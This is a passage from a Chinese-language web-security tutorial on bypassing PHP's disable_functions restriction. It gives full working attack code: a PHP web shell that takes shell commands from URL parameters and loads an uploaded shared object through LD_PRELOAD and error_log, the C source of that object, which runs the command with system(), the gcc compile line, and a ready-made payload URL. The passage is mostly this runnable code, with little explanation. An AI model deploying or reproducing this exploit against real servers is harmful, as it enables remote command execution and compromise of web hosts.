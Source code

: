 编译，```gcc -shared -fPIC evil.c -o evil.so -w```

随后php mail.php， 发现成功输出```pwned!```。

>最终php文件代码：
>
>```php
>// bypass_disable_functions.php
><?php 
>	$cmd=$_GET['cmd'];
>	$out_path=$_GET['outpath'];
>	$evil_cmdline=$cmd . " > " . $outpath ." 2>&1";
>	echo "<p> cmdline: " . $evil_cmdline . "</p>";
>	putenv("EVIL_CMDLINE=" . $evil_cmdline);
>	
>	$so_path=$_GET['sopath'];
>	putenv("LD_PRELOAD=" . $so_path);
>	
>	error_log("啊哈哈哈哈!",1);
>	
>	echo "<p> output:" . nl2br(file_get_contents($out_path)) . "</p>";
>	
>	unlink($out_path);
>?>
>```
>
>c程序代码：
>
>```c
>// evil.c
>
>#define _GNU_SOURCE
>#include <stdlib.h>
>#include <stdio.h>
>#include <unistd.h>
>#include <string.h>
>extern char** environ;
>
>__attribute__ ((__constructor__)) void exec(void){
>        const char* cmdline = getenv("EVIL_CMDLINE");
>
>        int i;
>        for(i = 0; environ[i]; i++){
>                if (strstr(environ[i], "LD_PRELOAD")) {
>                        environ[i][0] = '\0';
>                }
>        }
>
>        system(cmdline);
>
>        return;
>}
>```
>
>将evil.c编译成evil.so上传服务器。
>
>payload:bypass_disable_functions.php?cmd=env&outpath=/var/www/html/res.txt&sopath=/var/www/html/evil.so

第三种借助蚁剑的插件实现bypass。

